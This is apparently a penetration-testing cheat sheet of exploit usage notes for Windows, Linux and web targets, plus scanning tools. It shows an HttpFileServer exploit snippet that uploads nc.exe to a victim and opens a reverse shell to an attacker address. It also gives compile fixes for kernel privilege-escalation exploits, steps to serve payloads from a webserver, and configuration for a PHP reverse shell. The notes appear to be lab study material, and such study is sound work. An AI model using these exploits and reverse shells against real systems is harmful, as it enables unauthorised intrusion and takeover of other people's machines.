 # Exploits/Tools/Cheatsheets
 
### Windows Exploits

<details><summary>CVE-2017-7269</summary>
<p>
source: https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell

`usage: python exploit.py <ip> <port> <attacking-ip> <attacking-port>`

</p>
</details>

<details><summary>MS14-058 HttpFileServer 2.3.x RCE</summary>
<p>
source: https://www.exploit-db.com/exploits/37064
Upload nc.exe into victim machine and performs a reverse shell using nc.exe
```python
    #change these to your webserver for uploading nc.exe
    ip_addr = "192.168.1.20" 
    local_port = "80" 
    #file will be uploaded to and run from C:\Users\Public, change ip and port here to catch your reverse shell
    vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20192.168.1.10%20443%20-e%20cmd.exe"
```
</p>
</details>

<details><summary>MS08-067 Python Remote Exploit</summary>
<p>

source: https://www.exploit-db.com/exploits/40279
edit `shellcode` variable with payload and adjusts NOPS to fit it

</p>
</details>



### Linux Exploits
<details><summary>CVE-2017-7269</summary>
<p>
source: `searchsploit -m exploits/linux/local/18411.c`

If you encountered compilation errors like:
```c
Compilation errors like ' error: ‘CLONE_VM’ undeclared (first use in this function); did you mean ‘CLNEXT’'
```

fix by adding the following above code:
```c
#define _GNU_SOURCE     
#include <sched.h>
```

To Compile:
`gcc 18411.c -o exploit`

</p>
</details>


<details><summary>Linux Kernel 2.2-4 PrivEsc (ptrace-kmod)</summary>
<p>

(https://www.exploit-db.com/exploits/3)
Works for 2.2.x and 2.4.x kernels.
```c
// include <linux/user.h> <---remove this
// add below 
#include <sys/user.h>
#include <sys/reg.h>
```
</p>
</details>

<details><summary>Mod SSL 2.8.7 OpenSSL Exploit (openfartV2.c)</summary>
<p>

(https://www.exploit-db.com/exploits/764)
commented out `#COMMAND2` variable out to download. Can be used seperately with ptrace-kmod for PrivEsc.
Usage:
1. compile code
`gcc -o openfuck openfuckV2.c -lcrypto`
_if you encounter missing ld error while compiling at victim machine, try checking PATH and make sure it is pointing to the 'ld' file_

2. In your ptrace-kmod.c directory start webserver
`python -m SimpleHTTPServer 80`
</p>
</details>


### Other Exploits
<details><summary>PHP Reverse Shell (pentest monkey)</summary>
<p>

(http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
Works like a charm in linux php LFI situations better than `system('<reverse shell bash code>');`
1. modify code
```c
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```
2. start listener to catch reverse shell
3. upload and run script
</p>
</details>


### Tools
<details><summary>Onetwopunch - wrapper for unicorn and nmap scan</summary>
<p>

(https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh) 
Scan for port using nicornscan (very fast) and chain it with nmap vuln nse script scan
1. ping sweep for online hosts into list
`nmap -v -sn 10.11.1-254 -oG all-hosts.txt`
`grep Up all-hosts.txt > online.hosts.txt`

2. download onetwopunch script
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
 
3. run script with nmap -sV option
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`
 
4. Once complete, navigate to output folder "ndir". Use command to formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`

5. Navigate to output folder "ndir" and formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
</p>
</details>

<details><summary>Droopescan - drupal scanner</summary>
<p>

(https://github.com/droope/droopescan)
```
git clone https://github.com/droope/droopescan.git
cd droopescan
pip install -r requirements.txt
droopescan scan drupal -u http://10.11.1.49
```
</p>
</details>

<details><summary>Samba Checker - checks for samba version</summary>
<p>

Checks Samba version as enum4linux messed up?
THanks fellow student OS-40285/rewardone
```bash
./samba_checker.sh <ipaddress> <port>
```
</p>

</details>




